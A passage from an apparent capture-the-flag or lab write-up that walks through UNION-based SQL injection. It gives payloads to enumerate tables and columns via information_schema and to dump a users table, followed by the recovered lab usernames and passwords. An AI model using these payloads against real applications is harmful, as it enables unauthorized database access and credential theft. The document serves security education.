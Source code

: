 
```sql
' UNION SELECT table_name, NULL from information_schema.tables ORDER BY 2--
```

- After listing out all the tables within the database, the one which seemed to be the most relevant was `users_dragfx` for containing user credentials.

<br/>

The `users_dragfx` can then be used to craft a query which is able to list out all the columns within the database.

<br/>

<br/>

![76e89471_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/5e4214e6-7a45-467b-8508-179e5f034467)

**Query Injected:**


```sql
'' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_dragfx'--
```

<br/>

By injecting the queries, there were two columns that seemed to be more relevant than the others when it came to the user credentials. The columns are:

- `username_vubkdl` → usernames

- `password_feplht` → passwords




![86bccc31_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/1d72a6dc-07b3-4342-aa4c-c8c231cf33bb)

**Query Injected:**


```sql
' UNION SELECT username_vubkdl, password_feplht FROM users_dragfx--
```

<br/>

**User Credentials:**

 | **Usernames** | **Passwords** | 
 | ---- | ---- | 
 | administrator | t89xbgj56ldltrxo24mj | 
 | carlos | mgdg1ppgpajf8b1883ax | 
 | wiener | 7klwcouj6w9s43f4guyx | 

<br/>

![e69917df_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/09448a3e-8474-4a30-b175-83d23a9d771b)
